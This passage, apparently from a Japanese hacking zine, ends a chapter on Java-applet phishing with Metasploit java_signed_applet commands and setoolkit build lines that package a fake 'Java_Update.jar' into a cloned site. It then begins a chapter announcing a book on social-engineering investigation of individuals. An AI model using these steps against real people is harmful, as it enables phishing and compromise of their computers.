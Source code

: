 ```
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#\#\#\#\#\#\#Metasploitのコマンドサンプル\#\#\#\#\#\#\#\#
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
  msf > use exploit/multi/browser/java_signed_applet
      msf exploit(java_signed_applet) > show targets
            ...targets...
      msf exploit(java_signed_applet) > set TARGET <target-id>
      msf exploit(java_signed_applet) > show options
            ...show and set options...
      msf exploit(java_signed_applet) > exploit
```

　setoolkitが使用している方法は、下記のようにすでに作成してあるJava.java
というアプレット用のファイルをコンパイルします。

```
subprocess.Popen("rm Java_Update.jar", stderr=subprocess.PIPE, stdout=subprocess.PIPE, shell=True)
subprocess.Popen("rm Java.class", stderr=subprocess.PIPE, stdout=subprocess.PIPE, shell=True)
subprocess.Popen("javac Java.java", shell=True).wait()
subprocess.Popen("jar cvf Java_Update.jar Java.class", shell=True).wait()
subprocess.Popen("jar ufm Java_Update.jar manifest.mf", shell=True).wait()
subprocess.Popen("cp Java_Update.jar ../../html/unsigned/unsigned.jar", shell=True)
```

　これをコピーサイト作成の段階で、replaceで置き換えています。

  * Pythonで悪意あるJava appletを挿入
http://exploit.co.il/hacking/metasploit-java-meterpreter-payload/
  * PythonでMetasploitの自動化
http://www.primalsecurity.net/python-for-metasploit-automation/

　上記サイトなどを参考にmetasploitで攻撃コードを埋め込んで遊んでみてくだ
さい。
　また、ユニークなフィッシングを思いついたら是非教えてください。



***

## 第2章: 『ハッカーの学校 個人情報調査の教科書』の考察

著者：IPUSIRON

***


### 0x01 はじめに

　この度、『ハッカーの学校 個人情報調査の教科書』（以降、「個人情報調査本」
と略する）が2015年12月11日に発売されます。今回のハッカーの学校のテーマは、
ソーシャルエンジニアリングになります。アナログ・デジタルを区別することな
く、総合的に活用してターゲットの個人情報を調査する方法を解説しています。

http://www.amazon.co.jp/dp/4781702139　（Amazonのページ）

　公式ページについては近日中に公開予定です。追って詳細をSecurity Akademeia
の告知ページに載せる予定です。
